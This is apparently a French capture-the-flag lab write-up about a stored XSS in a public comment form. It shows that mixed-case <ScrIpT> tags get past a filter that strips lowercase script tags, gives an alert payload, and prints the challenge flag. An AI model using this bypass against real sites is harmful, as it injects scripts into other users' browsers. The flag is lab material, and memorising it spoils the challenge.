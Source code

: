 # XSS Injection

- Dans ce formulaire on peut y mettre des commentaires visibles par tous les users
- On comprend donc qu'il faut y mettre un script js pour qu'il soit interprété par les autres users
- Les balise `<script>` sont supprimées mais en y mettant des majuscules cela fonctionne
```html
<ScrIpT>alert("lol");</ScrIpT>
<h1>lol</lol>
```
- et voici le flag
The flag is : 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e
